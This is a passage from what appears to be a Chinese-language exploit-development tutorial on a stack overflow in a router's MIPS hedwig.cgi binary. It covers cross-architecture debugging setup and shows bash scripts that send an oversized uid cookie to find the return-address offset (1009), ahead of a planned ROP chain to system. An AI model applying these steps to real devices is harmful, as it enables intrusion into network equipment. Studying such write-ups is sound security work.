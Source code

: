 查看其安全防护情况，开启了nx保护，主要的应用思路为利用上述所讲的栈溢出漏洞，通过构造rop链构造相应参数并且执行system命令，以达到攻击效果：

![image-20220822153414713.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-952d235e360744fc200d827ff229432811fe89fc.png)

配置mips小端架构下的动态调试环境，（提示这里的GDBserver和GDB需要交叉编译得到，怎么交叉编译以及具体怎么配置调试环境看我另一篇文章），主机中的DGB也需要进行交叉编译，得到mipsel-linux-gdb（也在另一篇文章中提及），然后运行可执行程序。或者不交叉编译，而是安装gdb-multiarch跨架构执行，推荐用这种方法，因为方便使用pwndbg插件。gdb-multiarch安装指导链接：<https://www.cnblogs.com/LY613313/p/16180128.html>。以下的动态调试中两种方法我都尝试了一下。

确定偏移
----

PWNtools—cyclic计算偏移量（gdb+gdb-multiarch+pwndbg+gdbserver）

首先生成一个2000长度的乱序字符串，复制下来之后粘贴到如下的调试脚本中，XXXXXXXXXXXXXXXXX的位置就是cyclic2000生成的乱序字符串。

`pwndbg> cyclic 2000`

```js
#!/bin/bash  
export CONTENT\_TYPE="application/x-www-form-urlencoded"  
export HTTP\_COOKIE=$(python -c "print 'uid=' + 'XXXXXXXXXXXXXXXXXXXX'")  
#export HTTP\_COOKIE="uid=\`cat context\`"  
export CONTENT\_LENGTH=$(echo -n "$HTTP\_COOKIE" | wc -c)  
export REQUEST\_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=4321"|./gdbserver.mipsle 192.168.100.254:8888 /htdocs/web/hedwig.cgi  
#echo "uid=4321"|/htdocs/web/hedwig.cgi

```

不下断点，gdb调试运行后报错：Invalid address 0x646b6161

![image-20220826170416031.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f984c285f2d192baa34ac4397173bc0d39faa41d.png)

然后利用cyclic工具，输入cyclic -l + Invalid address，可以获得一个溢出的偏移，但是这个偏移可能不是很准确，所以还需要再次的验证。

![image-20220826170609715.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8a8d85ee4fd3d90deacf938afbe711620c25919f.png)

接下来就是动态调试验证偏移是否为1009，利用gdbserver调试，脚本如下（这里是用的mipsel-linux-gdb+gdbserver）：

```js
#!/bin/bash  
export CONTENT\_TYPE="application/x-www-form-urlencoded"  
export HTTP\_COOKIE=$(python -c "print 'uid=' + 'A'\*1009 + 'BBBB'")  
#export HTTP\_COOKIE="uid=\`cat context\`"  
export CONTENT\_LENGTH=$(echo -n "$HTTP\_COOKIE" | wc -c)  
export REQUEST\_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=4321"|./gdbserver.mipsle 192.168.100.254:8888 /htdocs/web/hedwig.cgi  
#echo "uid=4321"|/htdocs/web/hedwig.cgi
```

由于虚拟机的结构为mips架构，则需要通过交叉编译的方式进行gdbserver的交叉编译，然后传入虚拟机中执行，然后在ubuntu主机中进行远程的GDB连接。

![image-20220826104950537.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-bbfeb3824625bda34ae303d79c8ecfc2d92ebf26.png)
